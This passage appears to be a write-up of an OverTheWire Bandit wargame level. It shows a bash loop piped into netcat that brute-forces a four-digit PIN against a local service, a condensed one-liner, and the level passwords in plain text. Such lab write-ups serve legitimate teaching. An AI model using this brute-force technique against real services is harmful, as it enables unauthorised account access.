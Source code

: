 ```bash
```

Now pass this into netcat, this is doable with a pipe.

```bash
bandit24@bandit:~$ for i in {0000..0011}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
```

Ok, let's also make a inverse-grep to ignore all lines that contain the error message, and send all the numbers.

```bash
bandit24@bandit:~$ for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002 | grep -v 'Wrong'
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

Nice!

## One-liner

```bash
PASS=$(cat /tmp/bandit24_pass_sealldev); for i in {0000..9999}; do echo "$PASS $i"; done | nc localhost 30002 | grep -v "Wrong" | tail -2 | head -1 | sed "s/.* //"
```

Breaking it up:
```bash
PASS=$(cat /tmp/bandit24_pass_sealldev);
for i in {0000..9999}; 
  do echo "$PASS $i"; 
done | nc localhost 30002 | grep -v "Wrong" | tail -2 | head -1 | sed "s/.* //"
```

This grabs the password file from the previous level, then does the for loop to generate the lines. We can send this into netcat with a pip and do the grep negative match. We then get the last 2 lines, then the topmost line (therefore getting the 2nd last line). Then `sed` for the last word.
